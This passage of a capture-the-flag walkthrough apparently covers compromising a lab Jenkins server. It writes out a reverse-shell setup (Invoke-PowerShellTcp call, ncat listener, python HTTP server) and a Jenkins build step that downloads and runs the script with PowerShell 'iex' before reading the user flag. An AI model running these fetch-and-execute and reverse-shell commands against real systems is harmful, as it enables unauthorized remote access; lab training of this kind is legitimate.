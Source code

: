 Open up the reverse shell scripts that you just downloaded and edit:
- Navigate to the bottom of the script
- Add: `Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`
- My case: `Invoke-PowerShellTcp -Reverse -IPAddress 10.6.106.187 -Port 1202`
- Save it and Exit out.

<p align="center"> <img src="https://i.imgur.com/T97QXaU.png" height="90%" width="90%" alt=""/>

We will need to make it available for the server to download. By creating an http server with python.

Open another terminal, we will need to use the ncat command to listen for connection on port 1202.

On Terminal: `python3 -m http.server 80`
On New Terminal: `ncat -nlvp 1202`

<p align="center"> <img src="https://i.imgur.com/YKa2lml.png" height="90%" width="90%" alt=""/>

Navigate back to the Jenkins webpage > Click on the down arrow on "project" > Select "Configure".

<p align="center"> <img src="https://i.imgur.com/FE8WBan.png" height="90%" width="90%" alt=""/>

Scroll down to Build section and put in: `powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.106.187:80/Invoke-PowerShellTcp.ps1') ` > Save.

- IEX stands for invoke expression which will evaluate and load whatever is passed onto it, which in this case is the Invoke-PowerShellTcp.ps1 script.

- IP is your own IP Address with port 80.

<p align="center"> <img src="https://i.imgur.com/kiyh9FC.png" height="90%" width="90%" alt=""/>

Click on "Build Now" > Build History will change.

<p align="center"> <img src="https://i.imgur.com/doZPaha.png" height="90%" width="90%" alt=""/>

Successully got into Jenkins workspace with `ncat`.

<p align="center"> <img src="https://i.imgur.com/6Z2qKho.png" height="90%" width="90%" alt=""/>

Let's go back in directories by using `cd`.

On Terminal: `cd ../../../..`

<p align="center"> <img src="https://i.imgur.com/PE1SLIz.png" height="90%" width="90%" alt=""/>

We will find the user and get into their desktop.

<p align="center"> <img src="https://i.imgur.com/TtmtPiH.png" height="90%" width="90%" alt=""/>

We will now use `ls` to see what file the user has.

<p align="center"> <img src="https://i.imgur.com/m0fxqex.png" height="90%" width="90%" alt=""/>

Look into the "user.txt" by using `type` command.
- Successfully captured the flag.
